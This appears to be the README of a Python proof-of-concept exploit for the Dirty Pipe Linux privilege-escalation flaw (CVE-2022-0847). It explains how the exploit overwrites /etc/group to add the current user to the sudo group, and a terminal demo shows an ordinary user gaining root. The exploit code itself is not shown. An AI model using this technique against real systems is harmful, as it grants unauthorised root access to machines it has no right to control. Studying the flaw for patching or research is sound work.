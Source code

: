 # POC Exploit to add user to Sudo for CVE-2022-0847 Dirty Pipe Vulnerability

This repo is based of the Vulnerability, Writeup and Exploit produced by Max Kellermann all found [here](https://dirtypipe.cm4all.com/).

Just like everyone I had to take advantage of playing with the worlds most trivial to repro Priv Esc the blog post does a great job of explaining it all.

I translated the exploit into python simply to get a better feel for it, but this is an exact copy of the C exploit.

## Requires
Python 3.10 (due to use of os.splice call)

## Bad bits
Corrupts the /etc/group file by writing into the line directly following the sudo entry. But when you are root you can fix this using the copy.

Places a copy of /etc/group at /tmp/group_backup

### Demonstation

```sh
test@kali:/home/user/working$ whoami
test
test@kali:/home/user/working$ sudo whoami
test is not in the sudoers file.  This incident will be reported.
test@kali:/home/user/working$ python3.10 poc.py
[*] Dirty PIPE POC [*]
[*] Exploit will add test to sudoers
[*] Finding offset of sudo entry in /etc/group
[*] Found sudo group offset
[*] Confirmed it is not last.
[*] Opening /etc/group
[*] Opening PIPE
[*] Contaminating flags of pipe buffer
[*] 65536 bytes written to pipe
[*] 65536 bytes read from pipe
[*] Splicing byte from /etc/group to pipe
[*] Spliced 1 bytes
[*] Altering group to add test
[*] 6 bytes written to /etc/group
test@kali:/home/user/working$ su test
Password:
test@kali:/home/user/working$ sudo whoami
root
test@kali:/home/user/working$
```